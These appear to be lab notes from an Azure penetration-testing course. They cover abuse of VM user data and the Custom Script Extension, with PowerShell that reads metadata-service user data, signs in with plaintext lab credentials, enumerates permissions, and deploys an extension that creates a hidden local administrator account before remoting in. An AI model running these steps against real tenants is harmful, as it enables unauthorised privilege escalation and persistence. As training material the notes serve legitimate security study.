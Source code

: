 # Azure VMs - User Data

* Scripts or any other data that can be inserted on an Azure VM at time of provision or later.
* "Any application on the virtual machine can access the user data from the Azure Instance Metadata Service (IMDS) after provision."
* User data is
  * Persistent across reboots
  * Can be retrieved and updated without affecting the VM
  * Not encrypted and any process on the VM can access the data!
  * Should be base64 encoded and cannot be more than 64KB
* Despite clear warning in the documentation, a lot of sensitive information can be found in user data.
* Examples are, PowerShell scripts for domain join operations, postprovisioning configuration and management, on-boarding agents, scripts used by infrastructure automation tools etc.
* It is also possible to modify user data with permissions `Microsoft.Compute/virtualMachines/write` on the target VM. Any automation or scheduled task reading commands from user data can be abused!
* Modification of user data shows up in VM Activity Logs but doesn't show what change was done.

**Custom Script Extension**

* Extensions are "small applications" used to provide post deployment configuration and other management tasks. OMIGOD!
* Custom Script Extension is used to run scripts on Azure VMs.
* Scripts can be inline, fetched from a storage blob (needs managed identity) or can be downloaded.
* The script is executed with SYSTEM privileges.
* Can be deployed to a running VM.
* Only one extension can be added to a VM at a time. So it is not possible to add multiple custom script extensions to a single VM
* Following permissions are required to create a custom script extension and read the output: `Microsoft.Compute/virtualMachines/extensions/write` and `Microsoft.Compute/virtualMachines/extensions/read`
* The execution of script takes place almost immediately.

```powershell
$password = ConvertTo-SecureString 'Stud2802Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student2802', $password)
$jumpvm = New-PSSession -ComputerName 51.116.180.87 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $jumpvm

$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "<http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text>"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

```powershell
$Password = ConvertTo-SecureString 'Manag3dUserF0rVirtualM@chines' -AsPlainText -Force # Pass change
$Cred = New-Object System.Management.Automation.PSCredential('samcgray@defcorphq.onmicrosoft.com', $Password)
Connect-AzAccount -Credential $Cred

Get-AzResource
Get-AzRoleAssignment -SignInName samcgray@defcorphq.onmicrosoft.com
Get-AzRoleAssignment -Scope /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv
```

```powershell
$Token = (Get-AzAccessToken).Token
$URI = '<https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv/providers/Microsoft.Authorization/permissions?api-version=2015-07-01>'

$RequestParams = @{
    Method  = 'GET'
    Uri     = $URI
    Headers = @{
        'Authorization' = "Bearer $Token" 
    }
}
(Invoke-RestMethod @RequestParams).value 
```

```powershell
Get-AzVMExtension -ResourceGroupName "Research" -VMName "infradminsrv"
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student2802 Stud2802Password@123 /add /Y; net localgroup administrators student2802 /add"}'

$password = ConvertTo-SecureString 'Stud2802Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('student2802', $password)
$jumpvm = New-PSSession -ComputerName 51.116.180.87 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession -Session $jumpvm

$password = ConvertTo-SecureString 'Stud2802Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('.\\student2802', $Password)
$infradminsrv = New-PSSession -ComputerName 10.0.1.5 -Credential $creds
Invoke-Command -Session $infradminsrv -ScriptBlock{hostname}
Invoke-Command -Session $infradminsrv -ScriptBlock{dsregcmd /status}
```
